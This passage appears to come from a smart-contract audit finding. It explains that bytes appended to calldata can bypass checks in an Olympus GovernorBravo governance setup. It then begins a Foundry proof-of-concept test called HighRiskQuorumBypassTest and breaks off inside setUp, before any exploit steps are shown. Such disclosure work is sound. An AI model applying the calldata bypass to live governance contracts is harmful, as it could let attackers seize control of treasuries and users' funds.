 Therefore, we can append additional bytes into the calldata which will bypass all the checks and the EVM will ignore this additional bytes when making an external call.

## POC
```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity 0.8.15;

import {Test} from "forge-std/Test.sol";
import {UserFactory} from "test/lib/UserFactory.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";
import {console2} from "forge-std/console2.sol";

import {MockGohm} from "test/mocks/OlympusMocks.sol";

import {OlympusTreasury} from "modules/TRSRY/OlympusTreasury.sol";
import {OlympusRoles} from "modules/ROLES/OlympusRoles.sol";
import {RolesAdmin} from "policies/RolesAdmin.sol";
import {TreasuryCustodian} from "policies/TreasuryCustodian.sol";
import "src/Kernel.sol";

import {GovernorBravoDelegateStorageV1} from "src/external/governance/abstracts/GovernorBravoStorage.sol";
import {GovernorBravoDelegator} from "src/external/governance/GovernorBravoDelegator.sol";
import {GovernorBravoDelegate} from "src/external/governance/GovernorBravoDelegate.sol";
import {Timelock} from "src/external/governance/Timelock.sol";

contract HighRiskQuorumBypassTest is Test {
    using Address for address;

    address internal whitelistGuardian;
    address internal vetoGuardian;
    address internal alice;
    uint256 internal alicePk;

    MockGohm internal gohm;

    Kernel internal kernel;
    OlympusTreasury internal TRSRY;
    OlympusRoles internal ROLES;
    RolesAdmin internal rolesAdmin;
    TreasuryCustodian internal custodian;

    GovernorBravoDelegator internal governorBravoDelegator;
    GovernorBravoDelegate internal governorBravo;
    Timelock internal timelock;

    // Re-declare events
    event VoteCast(
        address indexed voter,
        uint256 proposalId,
        uint8 support,
        uint256 votes,
        string reason
    );

    function setUp() public {
        // Set up users
        {
            address[] memory users = (new UserFactory()).create(2);
            whitelistGuardian = users[0];
            vetoGuardian = users[1];

```